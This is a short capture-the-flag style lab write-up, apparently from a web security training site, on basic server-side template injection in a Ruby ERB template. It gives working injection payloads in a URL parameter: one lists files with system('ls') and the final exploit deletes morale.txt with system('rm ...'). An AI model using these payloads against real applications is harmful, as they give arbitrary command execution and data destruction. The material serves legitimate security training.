 # Lab: Basic server-side template injection

This lab is vulnerable to server-side template injection due to the unsafe
construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute
arbitrary code, then delete the morale.txt file from Carlos's home directory.


https://docs.ruby-lang.org/en/2.3.0/ERB.html
```Ruby
<%= Ruby expression -- replace with result %>
```

### Execute system commands via Ruby
https://www.rubyguides.com/2018/12/ruby-system/
```Ruby
system("ls")
```
```Ruby
<%= system("ls") %>
```

```HTTP
Request:
GET /?message=<%= system("ls") %>
```
```
Response:
morale.txt true
```
### The exploit:
```Ruby
<%= system("rm morale.txt") %>
```

## Request
```HTTP
GET /?message=<%= system("rm morale.txt") %>
```

## Response:
Lab solved


